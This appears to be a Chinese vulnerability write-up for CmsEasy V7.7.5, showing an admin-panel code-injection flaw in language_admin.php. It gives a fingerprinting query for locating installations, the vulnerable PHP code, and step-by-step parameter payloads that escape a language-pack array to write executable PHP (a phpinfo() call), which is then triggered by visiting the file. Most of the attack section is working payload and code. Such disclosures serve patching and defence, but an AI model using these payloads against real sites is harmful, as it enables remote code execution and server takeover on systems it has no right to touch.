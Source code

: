 # 

# CmsEasy language_admin.php 后台命令执行漏洞

## 漏洞描述

CmsEasy 后台存在命令执行漏洞，通过文件 language_admin.php 对部分文件进行写入操作，导致任意文件写入

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## 网络测绘

```
body="cmseasyedit"
```

## 漏洞复现

![image-20220518143113914](./images/202205181433140.png)

存在漏洞的文件为 `lib/admin/language_admin.php`

![image-20220518143419336](./images/202205181434423.png)

```
function add_action() {
        $lang_choice='system.php';
        if (isset($_GET['lang_choice'])){
            $lang_choice=$_GET['lang_choice'];
        }
        if (front::post('submit')) {
            $langid=front::get('id');
            $lang=new lang();
            $langdata = $lang->getrows('id='.$langid, 1);
            if (is_array($langdata)){
                $langurlname=$langdata[0]['langurlname'];
            }else{
                front::alert(lang_admin('language_pack').lang_admin('nonentity'));
            }
            $path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $tipspath=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $content=file_get_contents($path);
            $tipscontent=file_get_contents($tipspath);
            $replace="'".front::$post['key']."'=>'".front::$post['val']."',";
            $tipsreplace="'".front::$post['key']."'=>'".front::$post['cnnote']."',";
            $content=str_replace(');',"\n".$replace.');',$content);
            file_put_contents($path,$content);
            $pos=strpos($tipscontent,$tipsreplace);
            if ($langurlname != 'cn'&&$pos === false) {
                $tipscontent=str_replace(');',"\n".$tipsreplace.');',$tipscontent);
                file_put_contents($tipspath,$tipscontent);
            }
            if ($_GET['site'] != 'default') {
                $ftp=new nobftp();
                $ftpconfig=config::get('website');
                $ftp->connect($ftpconfig['ftpip'],$ftpconfig['ftpuser'],$ftpconfig['ftppwd'],$ftpconfig['ftpport']);
                $ftperror=$ftp->returnerror();
                if ($ftperror) {
                    exit($ftperror);
                }
                else {
                    $ftp->nobchdir($ftpconfig['ftppath']);
                    $ftp->nobput($ftpconfig['ftppath'].'/lang/'.$langurlname.'/'.$lang_choice,$path);
                }
            }
            event::log(lang_admin('add_to').lang_admin('language_pack'),lang_admin('success'));
            //
            $shepi='<script type="text/javascript">alert("'.lang_admin('dosomething').lang_admin('complete').'");gotoinurl("'.url('language/edit/id/'.$langdata[0]['id'],true);
            $shepi=$shepi.'&lang_choice='.$lang_choice;
            $shepi=$shepi.'");</script>';
            echo $shepi;
            //exit;
            //front::refresh(url('language/edit',true));
        }
        $this->view->lang_choice=$lang_choice;
    }
```

访问这个页面

![image-20220518143447023](./images/202205181434089.png)

其中参数有三个，分别为 `key , cnnote, val`

![image-20220518143502867](./images/202205181435903.png)

传入参数后,查看 `lang/cn/system_custom.php` 文件中

```
<?php
/*
 *中文语言包
 */

return

array(


'2'=>'3',);
?>
```

由于没有对传入的参数进行过滤，通过写入特殊的参数就可以逃逸出数组造成命令执行

分别传入两次参数

```
test1  test2  test3);
```

写入后文件内容

```
<?php
/*
 *中文语言包
 */

return

array(

'test2'=>'test3);',);
?>
```

再传入一次参数

```
test4  ,test5, 	,phpinfo());/*
```

![image-20220518143515689](./images/202205181435729.png)

写入后文件内容

![image-20220518143533909](./images/202205181435970.png)

访问文件 `/lang/cn/system_custom.php`

![image-20220518143552076](./images/202205181435144.png)
